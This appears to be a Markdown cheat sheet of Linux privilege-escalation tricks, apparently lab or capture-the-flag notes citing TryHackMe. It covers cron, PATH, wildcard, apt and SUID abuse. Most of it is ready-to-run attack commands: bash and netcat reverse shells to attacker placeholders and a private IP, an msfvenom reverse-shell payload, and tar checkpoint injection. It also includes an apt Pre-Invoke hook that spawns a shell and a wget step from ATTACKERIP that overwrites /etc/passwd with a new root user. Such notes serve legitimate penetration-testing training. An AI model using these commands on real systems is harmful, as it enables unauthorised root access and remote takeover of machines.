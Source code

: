 **File Permissions**
- View the contents of the system-wide crontab `cat /etc/crontab`, the cron log file `grep "CRON" /var/log/syslog` and see cron jobs, locate the file run with `locate <program>` and see the permissions with `ls -l <program full path>`
- If one of them is world-writable, substitute it with the following
  ```C
  #!/bin/bash
  bash -i >& /dev/tcp/<Your-IP>/4444 0>&1
  ```
  - You can also try with `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Your-IP> 4444 >/tmp/f`
- Open a listener with `nc -nvlp 4444`

**PATH Environment Variable**
- See [Task 9 - Linux PrivEsc | TryHackMe](https://tryhackme.com/room/linuxprivesc)
- The crontab `PATH` environment variable is by default set to `/usr/bin:/bin` and can be overwritten in the crontab file
- It might be possible to create a program or script with the same name as the cron job if the program or script for a cron job does not utilize an absolute path and one of the PATH directories is editable by our user.

**Wildcards**
- See [Task 10 - Linux PrivEsc | TryHackMe](https://tryhackme.com/room/linuxprivesc)
- Generate a reverse shell with `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf -o shell.elf`
  - make it executable `chmod +x shell.elf`
- run other commands as part of a checkpoint feature
  - `touch /home/user/--checkpoint=1`
  - `touch /home/user/--checkpoint-action=exec=shell.elf`

**apt running as root**
1. `cd /etc/apt/apt.conf.d/`
2. `echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.114 1234 >/tmp/f"};' > shell`

### SUID / SGID Executables

**setuid + GTFOBins**
- Check for setuid binaries on the machine
  - `find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null`
  - `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
- Use [GTFOBins](https://gtfobins.github.io/) to elevate your privileges

**wget + setuid**
- You can use it to add a root user
  1. obtain `/etc/passwd` from the victim
  2. add the new user `echo "root2:bWBoOyE1sFaiQ:0:0:root:/root:/bin/bash" >> passwd`
     - password hash generated with `openssl passwd mypass`
  3. overwrite `/etc/passwd` > `wget http://ATTACKERIP/passwd -o /etc/passwd`

**Known Exploits**
- Search for all the SUID/SGID executables on the Linux Machine `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
- Use [Exploit-DB](https://www.exploit-db.com/), Google and GitHub to find known exploits

